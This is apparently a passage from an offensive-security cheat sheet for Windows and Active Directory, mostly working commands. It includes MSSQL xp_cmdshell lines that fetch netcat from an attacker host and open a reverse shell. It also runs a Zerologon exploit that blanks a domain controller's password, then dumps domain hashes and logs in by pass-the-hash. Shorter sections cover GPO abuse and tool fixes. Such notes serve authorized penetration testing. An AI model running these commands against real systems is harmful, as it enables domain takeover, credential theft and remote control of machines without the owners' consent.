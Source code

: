 ```mssql
/* python3 mssqlclient.py [[domain/]username[:password]@]<targetName or ip> */
/* sysadmin fixed server role */
enable_xp_cmdshell
xp_cmdshell "powershell.exe wget http://<attacker ip>/nc.exe -OutFile c:\\Users\Public\\nc.exe"
xp_cmdshell  "c:\\Users\Public\\nc.exe -e cmd.exe <attacker ip> <attacker port>"
```

### :open_file_folder: Zerologon

https://github.com/VoidSec/CVE-2020-1472

```shell
./cve-2020-1472-exploit.py -n <DC_NAME> -t <dc-ip>
# [+] Success: Target is vulnerable!                                                                                                         
# [-] Do you want to continue and exploit the Zerologon vulnerability? [N]/y 
# y
# [+] Success: Zerologon Exploit completed! DC's account password has been set to an empty string.
python secretsdump.py -no-pass -just-dc <domain>/'DC_NETBIOS_NAME$'@<dc-ip>
# e.g., python secretsdump.py -no-pass -just-dc test.local/'USER01$'@10.10.10.168
# remote login
impacket-psexec "<username>":@<target ip> -hashes "<NTLM hash>"
# default 5989 port
evil-winrm -i <target ip> -u <username> -H '<NTLM hash>'
```

### :open_file_folder: AD Recycle Bin

find hidden information

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### :open_file_folder: GPO Abuse

https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/gpo-abuse
https://github.com/FSecureLABS/SharpGPOAbuse

```
Permission : GpoEditDeleteModifySecurity
```

### :open_file_folder: tool debug

ticket_converter.py (convert ticket to UNIX <-> Windows format)

modify KeyBlock to KeyBlockV4

```
ImportError: cannot import name 'KeyBlock' from 'impacket.krb5.ccache'
```

Mimikatz

Try using an older version.
